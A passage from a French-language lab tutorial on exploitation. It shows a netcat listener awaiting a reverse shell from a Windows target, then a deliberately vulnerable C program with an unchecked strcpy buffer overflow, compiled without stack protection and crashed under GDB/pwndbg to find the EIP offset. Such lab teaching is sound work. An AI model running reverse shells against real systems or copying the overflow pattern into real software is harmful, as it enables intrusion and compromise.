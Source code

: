 Sur Kali, ouvrez un listener :

```bash
nc -lvnp 4444
```

🎯 Résultat attendu : connexion inversée de la machine Windows vers Kali

---

## 7. Debugging avec GDB / pwndbg (si cible Linux)

### 🎯 Objectif : créer un exploit sur un binaire Linux vulnérable et comprendre le crash

### 1️⃣ Préparer un binaire vulnérable

```c
// vuln.c
#include <stdio.h>
#include <string.h>

void vulnerable(char *input) {
  char buffer[100];
  strcpy(buffer, input);
}

int main(int argc, char *argv[]) {
  vulnerable(argv[1]);
  return 0;
}
```

Compilez :

```bash
gcc -fno-stack-protector -z execstack vuln.c -o vuln
```

### 2️⃣ Lancer avec un long argument

```bash
./vuln $(python3 -c 'print("A"*200)')
```

### 3️⃣ Ouvrir dans GDB + pwndbg

```bash
gdb ./vuln
run $(python3 -c 'print("A"*200)')
```

### 🔎 Identifier le crash

* `info registers` : pour voir si `EIP` est écrasé
* `pattern_create`, `pattern_offset` : outils pwndbg pour trouver l’offset exact

---